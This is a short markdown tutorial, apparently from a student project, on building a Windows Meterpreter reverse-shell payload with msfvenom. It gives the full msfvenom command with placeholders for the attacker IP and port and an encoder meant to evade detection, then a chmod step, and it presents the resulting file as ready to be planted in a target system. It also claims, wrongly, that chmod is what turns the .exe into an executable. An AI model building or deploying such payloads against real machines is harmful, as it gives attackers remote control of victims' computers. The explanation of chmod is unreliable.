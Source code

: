 # Creating a payload with Msfvenom

To create a Meterpreter reverse shell, execute the following command

**msfvenom -p windows/meterpreter/reverse_tcp lhost=[attacker ip] lport[attacker port] --platform windows -e x86/shikata_ga_nai -f exe -o [name of payload executable].exe**.

<img src="https://raw.githubusercontent.com/yukun2h4ng/1600final/yukun2h4ng-patch-1/images/msfvenom.png" width="600">

Now we have an payload. While the file has an .exe extension, it is not actually an executable file yet. To do that, we need to make some changes to the file.

Execute the following command

**chmod 755 [name of payload executable].exe**

<img src="https://raw.githubusercontent.com/yukun2h4ng/1600final/yukun2h4ng-patch-1/images/executable.png" width="600">

Now we have a payload ready to be planted in the target system.

